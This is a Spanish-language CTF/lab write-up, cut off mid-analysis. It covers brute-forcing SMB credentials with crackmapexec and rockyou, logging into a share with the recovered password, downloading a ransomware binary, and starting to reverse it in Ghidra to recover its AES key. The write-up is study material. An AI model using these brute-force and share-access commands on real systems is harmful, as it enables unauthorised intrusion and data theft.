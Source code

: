 ```ruby
crackmapexec smb 172.17.0.2 -u patricio -p /usr/share/wordlists/rockyou.txt |grep -v 'STATUS_LOGON_FAILURE'
```

![image](https://github.com/user-attachments/assets/40a569f5-30f4-4725-9679-5cbb45488fb0)

doy con las credenciales de `patricio` asi que consulto los recursos compartidos

```ruby
smbmap -u 'patricio' -p 'basketball' -H 172.17.0.2
```

![image](https://github.com/user-attachments/assets/72c601ae-1a63-47ae-8c62-fa9258df6257)

![image](https://github.com/user-attachments/assets/102fa732-de49-420f-86d5-bc4c5f01321f)

me descargo `nota.txt`

```ruby
smbclient //172.17.0.2/ransomware -U patricio%basketball
```

![image](https://github.com/user-attachments/assets/5155f197-d62f-401a-abf1-802636d83ba4)

parece que `pokemongo` es un `ransomware` y `private.txt` parece tener informacion importante asi que descargo tanto el binario como `private.txt`

![image](https://github.com/user-attachments/assets/fe6a9de3-2141-4f4f-bdbc-b97b81007ead)

ahora para intentar desencriptar el archivo `private.txt` es necesario hacerle reversing al binario (no ejecutar!), por lo que hago reversing con `ghidra`

## Reversing pokemongo

![image](https://github.com/user-attachments/assets/bf3d5497-1c3d-4296-8b11-ad79ad8f8c69)

lo primero que necesito conocer es bajo que algoritmo cifra este `ransomware`

![image](https://github.com/user-attachments/assets/11ffcd04-98eb-45db-a6b8-e751897dc125)

al ir hasta la funcion `encrypt` puedo ver que hace uso de `AES-256-CBC`, dicho algoritmo necesita para el cifrado y descifrado una `key` y un vector de inicializacion `IV`
donde la `key` debe ser de 32 byte y el `IV` debe ser de 16 byte, si esta informacion se encuentra en el binario seria posible localizarlos y llegar a desencriptar
los archivos, en caso de que estos valores sean cargados desde el exterior habria que analizar desde donde los obtiene y si es posible conseguirlos...

![image](https://github.com/user-attachments/assets/1aa0c203-36c5-402c-84a1-e8bba0b4e2cb)

analizando este fragmento de codigo en la funcion `main`, veo que el binario realiza varias comprobaciones para continuar, por lo que pinta es un ataque dirigido, 
si continuamos analizando el codigo un poco mas abajo se observan 2 variables `local_438` & `local_430` que si paso sus valores de hex a char queda:
